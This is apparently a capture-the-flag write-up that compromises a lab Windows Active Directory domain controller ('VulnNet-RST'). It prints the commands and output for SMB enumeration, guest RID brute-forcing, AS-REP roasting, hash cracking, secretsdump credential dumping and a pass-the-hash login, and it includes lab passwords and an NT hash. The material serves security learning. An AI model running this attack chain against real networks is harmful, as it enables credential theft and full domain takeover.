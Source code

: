 we start by enumerating the target machine:

	sudo nmap -sV -p- 10.10.208.78  -Pn -O

output:

	53/tcp    open  domain        Simple DNS Plus
	88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-07-11 08:47:34Z)
	135/tcp   open  msrpc         Microsoft Windows RPC
	139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
	389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
	445/tcp   open  microsoft-ds?
	464/tcp   open  kpasswd5?
	593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	636/tcp   open  tcpwrapped
	3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
	3269/tcp  open  tcpwrapped
	5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	9389/tcp  open  mc-nmf        .NET Message Framing
	49665/tcp open  msrpc         Microsoft Windows RPC
	49668/tcp open  msrpc         Microsoft Windows RPC
	49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	49670/tcp open  msrpc         Microsoft Windows RPC
	49683/tcp open  msrpc         Microsoft Windows RPC
	49693/tcp open  msrpc         Microsoft Windows RPC
	49705/tcp open  msrpc         Microsoft Windows RPC

there is smb open, we can try to list the shares available to everyone with the following command:

	smbclient -L \\\\\10.10.208.78\\

output:

 		Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing

to download it we use the command below:

	get VulnNet-Business-Anonymous
	get VulnNet-Enterprise-Anonymous

there are useless .txt with some names but nothing special.
if we look the output from smb we can see that there is $IPC share is accessible, and it can be use to bruteforce the RID(Used by Active Directory) with the following command:

	crackmapexec smb 10.10.208.78  -u 'guest' -p '' --rid-brute /guest it could be a defualt account/

output:

	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\guest: 
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  [+] Brute forcing RIDs
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  500: VULNNET-RST\Administrator (SidTypeUser)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  501: VULNNET-RST\Guest (SidTypeUser)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  502: VULNNET-RST\krbtgt (SidTypeUser)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  512: VULNNET-RST\Domain Admins (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  513: VULNNET-RST\Domain Users (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  514: VULNNET-RST\Domain Guests (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  515: VULNNET-RST\Domain Computers (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  516: VULNNET-RST\Domain Controllers (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  517: VULNNET-RST\Cert Publishers (SidTypeAlias)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  518: VULNNET-RST\Schema Admins (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  525: VULNNET-RST\Protected Users (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  526: VULNNET-RST\Key Admins (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)

we have a bunch of users we can try to use impacket-GetNPUsers in order to retrieve the TGT of the users with the options set to  UF_DONT_REQUIRE_PREAUTH(Do not require Kerberos preauthentication):

	impacket-GetNPUsers VULNNET-RST/t-skid -no-pass  #found the right user after different tries

output:

	$krb5asrep$23$t-skid@VULNNET-RST:<REDACTED>

we use john to crack it 

	nano hash
	john hash -w=/usr/share/wordlists/rockyout.txt

we have the password of t-skid user, we can access on his smb shares with this command:

	smbclient  \\\\10.10.208.78\\NETLOGON -U t-skid

output:

	ResetPassword.vbs
	get ResetPassword.vbs

inside the vbs script there are other credentials, we can use them for kerberoasting, in order to retrieve the NTDS.DIT,SAM hashes and other credentials.

command:

	impacket-secretsdump -dc-ip 10.10.208.78 a-whitehat:bNdKVkjv3RR9ht@10.10.208.78

we have the admin's NThash  we can access with evil-winRM with this command:

	evil-winrm -i 10.10.113.15 -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d

we're in and if we search inside we can retrieve the 2 flags.
